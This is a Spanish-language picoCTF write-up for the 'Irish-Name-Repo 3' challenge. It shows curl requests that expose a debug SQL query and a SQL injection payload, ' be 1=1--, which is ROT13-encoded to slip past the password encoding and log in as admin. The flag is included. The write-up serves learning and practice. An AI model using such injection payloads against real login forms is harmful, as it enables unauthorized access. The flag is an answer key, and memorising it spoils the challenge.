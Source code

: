 # Irish-Name-Repo 3


## Descripción
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Pistas
- Seems like the password is encrypted.

## Solución


- Entramos a la pagina web: [link](https://jupiter.challenges.picoctf.org/problem/33850/)  
- Usando la interfaz de depuración, podemos inspeccionar la consulta SQL:
``` bash
┌──(kali㉿kali)-[~/Documentos]
└─$ curl "https://jupiter.challenges.picoctf.org/problem/54253/login.html" --data "password=test&debug=1"
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Admin Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documentos]
└─$ curl "https://jupiter.challenges.picoctf.org/problem/54253/login.php" --data "password=test&debug=1"
<pre>password: test
SQL query: SELECT * FROM admin where password = 'grfg'
</pre><h1>Login failed.</h1>  
```

- La contraseña fue encriptada de alguna manera. Dado el hecho de que `t` fue reemplazado por `g` dos veces, esto podría ser un cifrado de sustitución. Probemos una inyección simple:
``` bash
┌──(kali㉿kali)-[~/Documentos]
└─$ curl "https://jupiter.challenges.picoctf.org/problem/54253/login.php" --data "password=' or 1=1--&debug=1"
<pre>password: ' or 1=1--
SQL query: SELECT * FROM admin where password = '' be 1=1--'
</pre>  
```

- Se intenta, enviando `be` en lugar de `or`:
``` bash
┌──(kali㉿kali)-[~/Documentos]
└─$ curl "https://jupiter.challenges.picoctf.org/problem/54253/login.php" --data "password=' be  1=1--&debug=1" && echo
<pre>password: ' be  1=1--
SQL query: SELECT * FROM admin where password = '' or  1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>

┌──(kali㉿kali)-[~/Documentos]
└─$ 

```

- Se obtiene la bandera.

## Bandera
picoCTF{3v3n_m0r3_SQL_7f5767f6}


| Concepto | Descripción |
|------ | -------------- |
| or |Siempre es verdadero ||


## Referencias
- [SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)



